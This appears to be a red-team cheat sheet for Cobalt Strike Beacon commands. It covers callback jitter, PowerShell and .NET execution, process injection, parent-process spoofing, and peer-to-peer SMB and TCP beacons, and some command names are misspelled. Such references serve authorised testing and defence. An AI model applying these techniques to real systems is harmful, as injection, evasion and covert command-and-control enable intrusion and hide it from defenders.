 <p align="center">
  <img width="500" height="100" src="https://github.com/bigb0sss/RedTeam/blob/master/CobaltStrike/cs_logo.png">
</p>

## Command References

### Beacons
#### Sleep
```css
sleep 60 50                                 ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```

#### Command Execution
##### Default
```css
run [command]
```
##### powershell.exe
```css
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```
##### powerpick - using PS w/o powershell.exe
```css
powrepick [cmdlet] [args]
```

##### psinject - using PS within another process
```css
psinject [PID] [x86|x64] [cmdlet] [args]
```

#### .NET
```css
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

#### cmd.exe
```css
shell [command] [args]
```

#### Session Passing
```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

#### Parent Process Modification
```css
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

#### SMB Beacn
```css
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

#### TCP Beacn
```css
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```
